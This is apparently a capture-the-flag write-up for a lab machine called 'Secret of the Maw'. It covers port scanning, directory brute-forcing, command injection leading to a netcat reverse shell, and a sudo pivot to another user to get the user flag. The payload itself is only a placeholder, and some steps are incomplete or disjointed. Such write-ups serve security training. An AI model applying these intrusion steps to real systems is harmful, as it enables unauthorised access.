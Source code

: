 # CTF: Secret of the Maw

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)
![alt text](img/secretofthemaw.png)

## Description

> Le bananier des montagnes

## Write-up

The flag is a reference to the Harry Potter series.

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-20 10:26 BST
Nmap scan report for ip-10-10-118-193.eu-west-1.compute.internal (10.10.118.193)
Host is up (0.0060s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:81:96:FF:41:9D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

The target machine has three open ports, 22, 21 and 80. Port 21 is running an FTP server. Let's connect to the FTP server.

We go to the 80 port :

`http://$IP`

We see a website with a gif :

![alt text](img/secretofthemaw1.png)

We can use gobuster to find hidden directories :

```
gobuster dir --url http://$IP -w Tools/wordlists/dirbuster/directory-list-2.3-small.txt
```

Results :

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.118.193
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/20 10:31:03 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/discrete (Status: 301)
Progress: 46295 / 87665 (52.81%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/05/20 10:31:10 Finished
===============================================================
```

We go to the `/discrete` directory :

`http://$IP/discrete`

We see a page with a gif and a input

![alt text](img/secretofthemaw2.png)

If we try to put a random input, we see nothing happens.
But if we put linux commands, we are redirected to a page saying "You weren't discrete ! Hide quickly or he's going to find you!"

We have to do a reverse shell to get the user flag.  
http://localhost:7778

We can use the following command :

**In the attacker machine :**

```
nc -lvnp 9001
```

**In the target website :**

```
echo « BASE64 » | base64 —decode
```

We do `sudo -l` to see the sudo rights of the user.

```bash
User www-data may run the following commands on the-maw:
    (six) NOPASSWD: /home/six/.musicbox
```

We can execute the `/home/six/.musicbox` file as the user
```bash
sudo -u six /home/six/.musicbox
```

We are connected to `six` user. We have the user flag in the `/home/six` directory.